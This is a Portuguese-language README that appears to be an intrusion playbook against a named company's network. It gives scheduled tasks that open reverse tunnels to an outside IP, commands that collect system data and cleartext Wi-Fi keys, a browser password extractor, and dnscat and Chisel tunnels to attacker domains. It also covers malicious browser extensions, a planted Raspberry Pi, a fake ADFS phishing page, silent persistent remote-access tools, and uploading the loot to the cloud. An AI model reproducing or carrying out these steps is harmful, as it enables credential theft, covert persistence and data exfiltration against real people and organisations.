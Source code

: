 # Bonus
sch""tasks /create /tn "pac1" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1335 -t 10.1.0.69:389" /sc hourly /mo 4
sch""tasks /create /tn "pac2" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1336 -t 10.1.0.70:389" /sc hourly /mo 4
sch""tasks /create /tn "pac4" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1337 -t infraascode.localiza.com:443" /sc hourly /mo 4
sch""tasks /create /tn "pac5" /tr "C:\temp\python\pythonw.exe C:\temp\python\shootback\slaver_singlefile.py -m 54.236.23.49:1338 -t netadmin.localiza.com:443" /sc hourly /mo 4


# Guia de Execução

1 Ferramentas
Baixar o [1drive.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) com todas as ferramentas de uma vez\

# Android Wi-Fi
instalar um leitor de qrcode no seu celular \
https://www.howtogeek.com/818934/how-to-find-wi-fi-password-on-android/ \
https://android.gadgethacks.com/how-to/see-passwords-for-wi-fi-networks-youve-connected-your-android-device-0160995/

# Mapeamento
1. Criar a pasta tmp em **C:\tmp** Nela estarão os arquivos que você deve coletar ao final, comprimindo a pasta e enviando para nuvem
2. Baixar Ferramentas\
  2.1 O Arquivo [EXECUCAO.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) contém as pastas:\
      - Extencoes (Extenções Browser Chrome e Edge)\
      - deploycat (tunel)\
      - browser_pwd_extract (extrator de senhas browser que é o arquivo **chromium_based_browsers.exe**)\
3. Mapeamento (Cada comando abaixo eh executado no **CMD do windows**)\
   - 3.1 Captura de MAC Address\
       echo ">>>>>>>>>>>>>>> MAC <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && getmac >> C:\tmp\output.txt && cls && echo “done”
   - 3.2 Captura de configurações de rede\
      echo ">>>>>>>>>>>>>>> NetConf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && ipconfig /all >> C:\tmp\output.txt && cls && echo “done”
   - 3.3 Captura de informações de sistema\
      echo ">>>>>>>>>>>>>>> Sysinf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && systeminfo >> C:\tmp\output.txt && cls && echo “done”
   - 3.4 Criação de pasta temporária e Captura de Senhas WiFi (**Aplicável para notebook**)
      for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear >> C:\tmp\output.txt && cls && echo “done”

# PWD Browsers
4. Captura de Informações dos Browsers\
   4.1 Certifique-se de que existe a pasta C:\tmp\    \
   4.2 Baixe / Extraia  o ZIP [chromiumaster.zip](https://1drv.ms/u/s!AjfrkQYLG_fYelG61GupNU6K5qI?e=ZWqoUe) também presente no arquivo EXECUCAO2.zip e execute o programa chromium_based_browsers.exe. 

# Reverse Tunnel
5. Tunnel
- 5.1 DNS Cat
   Baixar [arquivo](https://github.com/tu74nkamon/guide/blob/main/connect.ps1) e colocar em C:\Users\"user"\connect
\

Executar em powershell (dentro da pasta C:\Users\"user"\connect) os seguintes comandos:
- Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
- . ./connect.ps1
- Start-Connect -d "n1.cwdlab.com" -s "172.16.1.197"

- 5.2  Chisel Tunnel
   Download no [1drive](https://1drv.ms/f/s!AjfrkQYLG_fYgSX-FsDPaSIMLnfq?e=lS5hOx) ou [github](https://github.com/tu74nkamon/guide/blob/main/VENUS.zip) e alterar em cada maquina diferente a porta para o intervalo de 1080 ate 1090 (Executar no CMD do windows)\


   PC1) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1080:socks\
   PC2) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1081:socks\
   PC3) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1082:socks\
   ...\
   PC8) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1087:socks
   
# Extenção   
6. Extensão de Browser\
   6.1 Escolha uma versão das Extenções e instale nos navegadores CHROME e EDGE\
   6.2 Você pode verificar se o dominio eh alcançável por:\
        - Versao1 [https://happyteachersdayquotes.com/verify](https://happyteachersdayquotes.com/verify)\
        - Versao2 [https://cwdlab.com/verify](https://cwdlab.com/verify)\
        - Versao3 [https://gitauth.co/verify](https://gitauth.co/verify)

# Raspberry
7. Lembrar de plugar o raspberry em algum ponto de rede\

# o365
8. Captura de Credenciais de dominio\
 Acessar https://amz.run/6YAy ou https://adfs.aufoglass.com/adfs/ls/?wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline e pedir alguém para logar na página nossa do ADFS (Microsoft)
 
 
 # Tools Acesso Remoto
 lembrar de baixar, instalar e configurar (logar em contas de acesso permanente) as ferramentas de acesso remoto.
- 1 GetScreen 
 Faça login com a conta fornecida para acesso permanente \
 ![image](https://user-images.githubusercontent.com/70968631/231205769-25e27ba5-b2d9-4a11-b938-cbcb929302a1.png)
 
 Desabilite as notificações\
 ![image](https://user-images.githubusercontent.com/70968631/231206995-7d9c8709-f4af-4e32-8ae6-bd1d1038c610.png)
 
- 2 Teamviewer
Instale o programa e logue em computadores e contatos com a conta fornecida\
![image](https://user-images.githubusercontent.com/70968631/231211994-491e7898-a76b-4915-b32d-dfe316566960.png)

 #Comprima a pasta **C:\tmp** e envie para cloud 
